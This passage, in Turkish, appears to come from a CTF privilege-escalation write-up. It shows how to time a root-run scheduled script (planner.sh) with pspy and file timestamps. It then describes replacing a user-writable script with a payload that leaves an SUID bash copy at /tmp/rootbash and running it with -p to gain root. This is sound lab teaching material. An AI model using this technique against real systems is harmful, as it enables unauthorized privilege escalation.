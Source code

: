     *   Eğer `planner.sh` kendi log dosyasını tutuyorsa (örn: `/var/log/planner.log`), onu inceleyin. Zaman damgaları çalışma sıklığını verir.
4.  **Proses İzleme Araçları (Örn: `pspy`):** CTF'lerde çok etkilidir. Sistemdeki proses oluşturma olaylarını anlık olarak izler.
    *   `pspy` (https://github.com/DominicBreuker/pspy) hedef makineye yüklenir.
    *   `./pspy64` (64-bit sistemler için) çalıştırılır. `planner.sh`'in periyodik olarak çalıştığını gösteren çıktılar aranır.
5.  **Dosya Değişiklik Zamanları:** Eğer `planner.sh` belirli bir dosyayı (örn: log dosyası, geçici dosya) her çalıştığında güncelliyorsa, bu dosyanın son değişiklik zamanı (`ls -l <dosya>`) ipucu verebilir.
    ```bash
    watch -n 1 'ls -l /var/log/planner.log' # 1 saniyede bir dosya durumunu izle
    ```

### Adım Adım Exploit Süreci

1.  **Keşif:**
    *   `cihan` kullanıcısının `/home/cihan/print.sh`'e yazabildiğini doğrula.
    *   `/opt/scripts/planner.sh` dosyasını oku (izin varsa) ve `print.sh`'i nasıl çalıştırdığını anla.
    *   Yukarıdaki yöntemlerle `planner.sh`'in ne sıklıkta ve kimin (ideal olarak `root`) tarafından çalıştırıldığını tespit et.
2.  **Payload Hazırlama:** `/home/cihan/print.sh` dosyasının içeriğini seçtiğin bir payload ile (örn: SUID bash kopyası) düzenle.
3.  **Bekleme:** `planner.sh`'in bir sonraki çalışma zamanını bekle. Tespit ettiğin sıklığa göre bu birkaç saniye veya saat olabilir.
4.  **Doğrulama ve Yetki Yükseltme (SUID Payload'ı için):**
    *   `planner.sh` çalıştıktan sonra, `/tmp/rootbash` dosyasının SUID bitinin ayarlandığını ve sahibinin `root` olduğunu kontrol et:
        ```bash
        ls -l /tmp/rootbash
        # Çıktı: -rwsr-xr-x 1 root root ... /tmp/rootbash  (s harfi SUID'i gösterir)
        ```
    *   Eğer SUID biti ayarlanmışsa, `root` olmak için çalıştır:
        ```bash
        /tmp/rootbash -p
        # '-p' bayrağı, effective UID'yi korumasını sağlar (privileged mode).
        whoami
        # Çıktı: root
        id
        # Çıktı: uid=1000(cihan) gid=1000(cihan) euid=0(root) ...
        ```
        Artık `root` yetkilerine sahipsin!

---